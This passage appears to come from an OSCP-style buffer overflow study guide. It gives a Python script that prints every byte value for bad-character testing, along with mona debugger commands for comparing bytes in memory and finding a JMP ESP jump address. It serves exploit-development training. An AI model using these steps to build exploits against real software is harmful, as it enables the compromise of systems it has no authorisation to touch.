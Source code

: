 `badchars.py`:  
```python
#!/usr/bin/python2

from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()

"""
Add the following to the "payload" variable

\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff 
"""
```

(1) Generate `bytearray.bin` and specifying currently known bad characters

```bash
!mona bytearray -b "\x00"
```

(2) Run `exploit.py` again.

(3) Replace `<esp_address>` with the `ESP` value and add next bad char to list of known bad characters.

```bash
!mona compare -f C:\mona\oscp\bytearray.bin -a <esp_address>
```

(4) Remove bad char from the "`payload`" variable.

(5) Repeart from (1) until no more bad characters reported

![](/images/bof2.png)

## Finding a Jump Point

Find suitable `JMP ESP` instruction and specifying currently known bad characters

```bash
!mona jmp -r esp -cpb "\x00"
```
